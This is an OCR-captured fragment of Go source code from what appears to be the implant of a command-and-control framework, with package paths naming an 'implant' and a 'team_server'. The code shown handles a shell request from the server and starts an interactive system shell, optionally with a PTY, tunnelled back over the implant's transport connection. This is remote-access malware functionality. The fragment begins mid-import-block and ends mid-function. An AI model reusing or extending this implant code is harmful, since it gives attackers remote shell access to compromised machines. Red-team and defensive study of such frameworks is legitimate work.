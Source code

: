 ```go

	"log"

	//

	"io"

	"mm-backend/implant/mm/shell"
	"mm-backend/implant/mm/transports"
	"mm-backend/protobuf/commonpb"
	"mm-backend/protobuf/team_server"

	"google.golang.org/protobuf/proto"
)

// only for normal kill bash
type MySystemShellCloser struct {
	shell *shell.Shell
}

func (m *MySystemShellCloser) Read(p []byte) (int, error) {
	// 阻塞进程的执行
	select {}
	return 0, nil
}

// Close 关闭数据源
func (m *MySystemShellCloser) Close() error {
	m.shell.Stop()
	return nil
}

func ShellReqHandler(envelope *team_server.Envelope, connection *transports.Connection) {

	shellReq := &team_server.ShellReq{}
	err := proto.Unmarshal(envelope.Data, shellReq)
	if err != nil {
		//
		log.Printf("[shell] Failed to unmarshal protobuf %s", err)
		//
		shellResp, _ := proto.Marshal(&team_server.Shell{
			Response: &commonpb.Response{
				Err: err.Error(),
			},
		})
		reportError(envelope, connection, shellResp)
		return
	}

	shellPath := shell.GetSystemShellPath(shellReq.Path)
	systemShell, err := shell.StartInteractive(shellReq.TunnelID, shellPath, shellReq.EnablePTY)
	if systemShell == nil {
		//
		log.Printf("[shell] Failed to get system shell")
		//
		shellResp, _ := proto.Marshal(&team_server.Shell{
			Response: &commonpb.Response{
				Err: err.Error(),
			},
		})
		reportError(envelope, connection, shellResp)
		return
	}
```